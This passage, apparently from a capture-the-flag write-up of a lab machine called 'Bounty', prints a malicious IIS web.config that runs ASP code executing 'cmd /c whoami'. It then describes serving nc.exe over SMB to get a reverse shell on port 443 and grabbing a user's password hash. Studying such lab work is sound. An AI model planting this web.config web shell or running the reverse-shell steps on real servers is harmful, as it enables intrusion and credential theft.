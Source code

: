 > **web.config**:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("cmd /c whoami")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-–>
```

<br />
<img src="{{ site.img_path }}/bounty_writeup/Bounty_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bounty_writeup/Bounty_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bounty_writeup/Bounty_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

After modifying and correcting the injected code in the **web.config** file I succeed in executing commands to send a `ping` trace to my attacking machine. So I will set up a local server with `impacket-smbserver` to share `nc.exe` as a shared resource, then I modify the malicious file and inject a command to execute `nc.exe` and send a **Reverse Shell** to port **443** on my machine, which I will open with `nc`. After doing all these steps and accessing the **web.config** file from the browser, I succeed in engaging the machine, I also get the authentication hash of the **merlin** user, which I can try to crack to get the credentials (I don't consider it necessary yet, but I write it down just in case).
